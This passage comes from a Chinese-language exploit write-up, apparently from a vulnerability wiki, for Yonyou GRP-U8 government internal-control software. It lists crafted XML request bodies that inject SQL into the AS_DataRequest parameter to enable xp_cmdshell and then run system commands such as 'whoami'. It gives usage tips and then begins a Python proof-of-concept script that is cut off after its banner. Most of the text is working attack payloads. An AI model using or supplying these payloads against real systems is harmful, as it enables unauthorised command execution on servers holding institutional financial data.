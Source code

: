 ```
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'show advanced options',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'xp_cmdshell',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```
发送如上实际为执行SQL语句打开 xp_cmdshell
use master;
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'xp_cmdshell',1;
reconfigure;
```

**再发送以下数据可成功使用 (也可能失败)**

```
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "whoami"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

执行过程中报错 java.sql.SQLException【错误代码: 0; 相关信息: xxxxxx】不用理会

发送请求后再使用此模块则会成功请求执行系统命令

****四:  漏洞 POC🦉****

```
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech


import requests
import re
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 用友GRP-U8行政事业内控管理软件                                \033[0m')
    print('+  \033[36m使用格式: python3 CNNVD-201610-923.py                               \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+  \033[36m(Y/N)  >>> Y or N                                                  \033[0m')
```